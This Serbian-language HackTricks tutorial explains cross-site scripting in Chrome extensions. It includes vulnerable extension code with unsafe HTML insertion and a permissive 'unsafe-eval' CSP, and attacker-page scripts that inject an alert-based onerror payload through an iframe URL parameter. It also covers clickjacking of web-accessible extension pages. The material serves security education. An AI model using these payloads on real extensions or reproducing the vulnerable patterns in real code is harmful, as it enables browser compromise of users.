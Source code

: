 # BrowExt - XSS Primer

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Cross-Site Scripting (XSS) kroz Iframe

U ovoj postavci, **sadržajni skript** se implementira da instancira Iframe, uključujući URL sa parametrima upita kao izvor Iframe-a:
```javascript
chrome.storage.local.get("message", result => {
let constructedURL = chrome.runtime.getURL("message.html") +
"?content=" + encodeURIComponent(result.message) +
"&redirect=https://example.net/details";
frame.src = constructedURL;
});
```
Javna HTML stranica, **`message.html`**, je dizajnirana da dinamički dodaje sadržaj u telo dokumenta na osnovu parametara u URL-u:
```javascript
$(document).ready(() => {
let urlParams = new URLSearchParams(window.location.search);
let userContent = urlParams.get("content");
$(document.body).html(`${userContent} <button id='detailBtn'>Details</button>`);
$('#detailBtn').on('click', () => {
let destinationURL = urlParams.get("redirect");
chrome.tabs.create({ url: destinationURL });
});
});
```
Na zloćudnoj stranici se izvršava zloćudni skript, modifikujući `content` parametar izvora Iframe-a kako bi se uveo **XSS payload**. To se postiže ažuriranjem izvora Iframe-a da uključuje štetni skript:
```javascript
setTimeout(() => {
let targetFrame = document.querySelector("iframe").src;
let baseURL = targetFrame.split('?')[0];
let xssPayload = "<img src='invalid' onerror='alert(\"XSS\")'>";
let maliciousURL = `${baseURL}?content=${encodeURIComponent(xssPayload)}`;

document.querySelector("iframe").src = maliciousURL;
}, 1000);
```
Previše permisivna politika bezbednosti sadržaja kao što je:
```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```
omogućava izvršavanje JavaScript-a, čineći sistem ranjivim na XSS napade.

Alternativni pristup za izazivanje XSS-a uključuje kreiranje Iframe elementa i postavljanje njegovog izvora da uključuje štetni skript kao `content` parametar:
```javascript
let newFrame = document.createElement("iframe");
newFrame.src = "chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?content=" +
encodeURIComponent("<img src='x' onerror='alert(\"XSS\")'>");
document.body.append(newFrame);
```
## DOM-based XSS + ClickJacking

Ovaj primer je preuzet iz [originalnog posta](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/).

Osnovni problem proističe iz DOM-bazirane Cross-site Scripting (XSS) ranjivosti koja se nalazi u **`/html/bookmarks.html`**. Problematični JavaScript, deo **`bookmarks.js`**, je detaljno opisan u nastavku:
```javascript
$('#btAdd').on('click', function() {
var bookmarkName = $('#txtName').val();
if ($('.custom-button .label').filter(function() {
return $(this).text() === bookmarkName;
}).length) return false;

var bookmarkItem = $('<div class="custom-button">');
bookmarkItem.html('<span class="label">' + bookmarkName + '</span>');
bookmarkItem.append('<button class="remove-btn" title="delete">x</button>');
bookmarkItem.attr('data-title', bookmarkName);
bookmarkItem.data('timestamp', (new Date().getTime()));
$('section.bookmark-container .existing-items').append(bookmarkItem);
persistData();
});
```
Ovaj deo koda preuzima **vrednost** iz **`txtName`** ulaznog polja i koristi **spajanje stringova za generisanje HTML-a**, koji se zatim dodaje u DOM koristeći jQuery-ovu `.append()` funkciju.

Obično, Content Security Policy (CSP) Chrome ekstenzije bi sprečila takve ranjivosti. Međutim, zbog **opuštanja CSP-a sa ‘unsafe-eval’** i korišćenja jQuery-ovih metoda manipulacije DOM-om (koje koriste [`globalEval()`](https://api.jquery.com/jquery.globaleval/) za prosleđivanje skripti u [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) prilikom umetanja u DOM), eksploatacija je i dalje moguća.

Iako je ova ranjivost značajna, njena eksploatacija obično zavisi od interakcije korisnika: posete stranici, unošenja XSS payload-a i aktiviranja dugmeta “Add”.

Da bi se pojačala ova ranjivost, koristi se sekundarna **clickjacking** ranjivost. Manifest Chrome ekstenzije prikazuje opširnu politiku `web_accessible_resources`:
```json
"web_accessible_resources": [
"html/bookmarks.html",
"dist/*",
"assets/*",
"font/*",
[...]
],
```
Značajno, stranica **`/html/bookmarks.html`** je podložna uokviravanju, što je čini ranjivom na **clickjacking**. Ova ranjivost se koristi za uokviravanje stranice unutar napadačeve stranice, prekrivajući je DOM elementima kako bi se obmanjujuće redizajniralo korisničko sučelje. Ova manipulacija dovodi žrtve do nehotice interakcije sa osnovnom ekstenzijom.

## Reference

* [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
* [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
